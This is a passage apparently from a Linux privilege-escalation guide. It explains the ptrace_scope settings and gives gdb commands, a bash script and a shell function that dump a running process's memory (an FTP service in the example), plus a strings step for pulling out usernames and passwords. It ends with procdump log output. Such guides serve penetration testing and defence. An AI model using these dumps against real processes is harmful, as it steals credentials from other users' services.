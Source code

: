 The file /proc/sys/kernel/yama/ptrace_scope controls the accessibility of ptrace:

kernel.yama.ptrace_scope = 0: all processes can be debugged, as long as they have the same uid. This is the classical way of how ptracing worked.

kernel.yama.ptrace_scope = 1: only a parent process can be debugged.

kernel.yama.ptrace_scope = 2: Only admin can use ptrace, as it required CAP_SYS_PTRACE capability.

kernel.yama.ptrace_scope = 3: No processes may be traced with ptrace. Once set, a reboot is needed to enable ptracing again.

#### GDB

If you have access to the memory of an FTP service (for example) you could get the Heap and search inside of its credentials.

```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

#### GDB Script

dump-memory.sh
```
#!/bin/bash
#./dump-memory.sh <PID>
grep rw-p /proc/$1/maps \
    | sed -n 's/^\([0-9a-f]*\)-\([0-9a-f]*\) .*$/\1 \2/p' \
    | while read start stop; do \
    gdb --batch --pid $1 -ex \
    "dump memory $1-$start-$stop.dump 0x$start 0x$stop"; \
done
```

#### /proc/$pid/maps & /proc/$pid/mem

For a given process ID, maps show how memory is mapped within that process's virtual address space; it also shows the permissions of each mapped region. The mem pseudo file exposes the processes memory itself. From the maps file we know which memory regions are readable and their offsets. We use this information to seek into the mem file and dump all readable regions to a file.

```
procdump()
(
    cat /proc/$1/maps | grep -Fv ".so" | grep " 0 " | awk '{print $1}' | ( IFS="-"
    while read a b; do
        dd if=/proc/$1/mem bs=$( getconf PAGESIZE ) iflag=skip_bytes,count_bytes \
           skip=$(( 0x$a )) count=$(( 0x$b - 0x$a )) of="$1_mem_$a.bin"
    done )
    cat $1*.bin > $1.dump
    rm $1*.bin
)
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714